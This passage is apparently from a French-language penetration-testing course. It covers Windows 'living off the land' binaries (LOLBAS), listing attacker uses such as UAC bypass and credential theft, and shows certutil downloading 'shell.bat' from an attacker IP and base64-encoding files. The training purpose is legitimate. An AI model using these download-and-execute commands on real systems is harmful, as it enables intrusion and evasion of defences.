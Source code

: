 Techniques Diverses
========================

* * * * *

Binaires et scripts vivants de la terre (LOLBAS)
-------------------------------------------------

Le [projet LOLBAS](https://lolbas-project.github.io/) documente les fichiers binaires, les scripts et les bibliothèques qui peuvent être utilisés pour les techniques de "vivre de la terre" sur les systèmes Windows. Chacun de ces fichiers binaires, scripts et bibliothèques est un fichier signé Microsoft qui est soit natif du système d'exploitation, soit peut être téléchargé directement depuis Microsoft et possède des fonctionnalités inattendues utiles à un attaquant. Certaines fonctionnalités intéressantes peuvent inclure :

| | | |
| --- | --- | --- |
| Exécution de code | Compilation de code | Transferts de fichiers |
| Persistance | Contournement UAC | Vol d'identifiants |
| Mémoire de processus de vidage | Enregistrement de frappe | Évasion |
| Piratage de DLL | | |

#### Transfert de fichier avec Certutil

Un exemple classique est [certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), dont l'utilisation prévue est pour gérer les certificats mais peut également être utilisé pour transférer des fichiers en téléchargeant un fichier sur disque ou encodage/décodage base64 d'un fichier.

Transfert de fichier avec Certutil

```
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat

```

#### Fichier d'encodage avec Certutil

Nous pouvons utiliser l'indicateur `-encode` pour encoder un fichier à l'aide de base64 sur notre hôte d'attaque Windows et copier le contenu dans un nouveau fichier sur le système distant.

Fichier d'encodage avec Certutil

```
C:\htb> certutil -encode file1 fichier encodé

Longueur d'entrée = 7
Longueur de sortie = 70
CertUtil : la commande -encode s'est terminée avec succès

```

#### Fichier de décodage avec Certutil
